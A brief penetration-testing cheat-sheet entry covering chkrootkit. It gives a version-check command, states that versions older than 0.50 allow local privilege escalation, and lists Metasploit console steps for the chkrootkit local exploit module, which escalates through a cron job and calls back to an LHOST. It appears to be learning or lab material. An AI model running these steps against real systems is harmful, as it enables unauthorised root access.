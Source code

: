 ```bash
chkrootkit -V
```

> This can be used to check the rootkit version running on the linux machine.

***VERSIONS OLDER THAN 0.50 OF THE CHKROOTKIT ARE VULNARABLE TO LOCAL PRIVELAGE ESCALATION VULNARABILITY***

```msfconsole
search exploit/unix/local/chkrootkit
show options
set CHKROOTKIT /path/to/file
set SESSION <session-id>
set LHOST <localhost-ip>
exploit
```

> This will exploit the vulnerability by creating a cron job.
